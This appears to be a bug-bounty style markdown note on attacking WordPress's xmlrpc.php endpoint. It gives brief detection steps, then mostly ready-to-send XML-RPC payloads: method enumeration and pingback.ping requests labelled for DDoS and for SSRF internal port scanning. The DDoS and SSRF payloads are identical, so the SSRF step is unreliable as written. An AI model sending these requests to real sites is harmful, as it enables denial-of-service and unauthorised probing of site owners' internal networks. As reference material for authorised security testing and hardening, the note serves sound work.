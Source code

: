 in wordpress its a API which allows developers for doing manipulations in the wordpress site for eg: </br>

Publish a post, Edit a post , Delete a post and even possible to upload some files. </br>

### Detection
* visit site.com/xmlrpc.php
* Get the error message about POST request only

### Exploit
* Intercept the request and change the method GET to POST
* List all Methods
    ```
    <methodCall>
    <methodName>system.listMethods</methodName>
    <params></params>
    </methodCall>
    ```
* Check the ```pingback.ping``` mentod is there or not
* Perform DDOS
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<YOUR SERVER >:<port></string></value>
    </param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```
* Perform SSRF (Internal PORT scan only)
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<YOUR SERVER >:<port></string></value>
    </param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```
    ![xmlrpctossrf](https://user-images.githubusercontent.com/63053441/137260425-a41ced8d-ce2b-4dd3-a98b-a78a0def55f0.jpg)
    
    ![xmlrpctossrf2](https://user-images.githubusercontent.com/63053441/137260444-ae4eaf77-1e0e-43e9-a2b2-6babee48cc75.jpg)



### Tool To Automate XMLRPC-Scan.

[XMLRPC-Scan](https://github.com/nullfil3/xmlrpc-scan)

### References
[Bug Bounty Cheat Sheet](https://m0chan.github.io/2019/12/17/Bug-Bounty-Cheetsheet.html)
